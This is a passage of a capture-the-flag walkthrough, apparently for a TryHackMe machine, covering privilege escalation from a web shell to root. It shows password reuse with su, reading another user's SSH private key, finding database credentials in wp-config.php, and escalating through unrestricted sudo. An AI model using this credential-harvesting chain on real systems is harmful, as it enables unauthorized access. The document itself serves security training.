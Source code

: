 ## Privilege Escalation

#### Summary

We are in the shell right now, got the password of user diego

#### Diego - Recon

```
www-data@ip-10-10-236-141:/var/www/wordpress/wp-admin$ su diego 
su diego 
Password: sandiegocalifornia

diego@ip-10-10-236-141:/var/www/wordpress/wp-admin$ whoami
whoami
diego
```

*Further scanning of the /home directory got us into /home/think directory*

*Doing ls -la got use a .ssh file that we can read as user Diego*

```
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 8 root  root     4096 Oct 14 07:42 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
```

*Cd into this directory gives the following files*

```
diego@ip-10-10-236-141:/home/think/.ssh$ ls
ls
authorized_keys  id_rsa  id_rsa.pub
```

*Found the private key*

```
[do the room!]
```

*Using the privkey to get ssh access to user Think*

```
┌──(root㉿kali)-[/smol]
└─# ssh -i priv_key think@smol.thm
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue 14 Oct 2025 08:14:33 AM UTC

  System load:  0.03              Processes:             152
  Usage of /:   69.0% of 9.75GB   Users logged in:       0
  Memory usage: 19%               IPv4 address for ens5: 10.10.236.141
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support on 31 Ma
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

37 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 20.04 at
https://ubuntu.com/20-04


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

think@ip-10-10-236-141:~$
```

*Think mag als gege user runnen*

```
su gege
```

*Na cracken van hash zip file wachtwoord in wp-config.php*

```

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

```

```
xavi@ip-10-10-205-187:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-205-187:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-205-187:
    (ALL : ALL) ALL
```

*Get root privileges*

```
sudo su
```







